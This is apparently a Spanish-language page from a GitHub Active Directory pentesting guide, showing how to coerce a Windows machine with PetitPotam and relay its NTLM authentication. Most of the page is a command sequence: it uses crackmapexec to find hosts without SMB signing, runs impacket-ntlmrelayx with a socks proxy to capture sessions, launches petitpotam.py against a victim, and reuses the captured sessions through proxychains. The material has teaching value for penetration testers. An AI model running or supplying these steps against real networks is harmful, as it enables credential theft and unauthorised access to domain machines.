 # Coaccionar a la víctima con PetitPotam

Si la vítima es vulnerable a petit potam podemos capturar las credenciales de la cuenta del equipo utilizando la técnica de NTLM RELAY:
[NTLM_relay](no_credentials/NTLM_relay/)

```Bash
# Obtener dispositivos con el SMB sin firmar
poetry run crackmapexec smb <rango ip> --gen-relay-list <output equipos relay>
# Ejecutar ntlmrelayx con socks para capturar y guardar la autenticación # La opción smb2support es cuando los objetivos son equipo actuales como windows 10 o Windoows server 2019
impacket-ntlmrelayx -tf <output equipos relay> -of netntlm -smb2support -socks
# Insertar el comando "socks" en la misma terminal para obtener las autenticaciones capturadas
```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/no_credentials/petitpotam/petitpotam1.png?raw=true "NTLM relay petitpotam")

```Bash
# Comprobar si la víctima es vulnerable a petitpotam con crackmapexec
poetry run crackmapexec smb <Rango IP> -M petitpotam
# Ejecutamos petitpotam del repositorio de Github: https://github.com/topotam/PetitPotam
python petitpotam.py <IP atacante> <DNS del equipo vísctima>
```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/no_credentials/petitpotam/petitpotam2.png?raw=true "petitpotam")

Resultado: (para ver las sesiones escribir "socks")

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/no_credentials/petitpotam/petitpotam3.png?raw=true "NTLM relay petitpotam")

Utilizar las sesiones con proxychain como se muestra en elste punto:

[NTLM Relay](/no_credentials/NTLM_relay//README.md#Redirigir-las-credenciales)

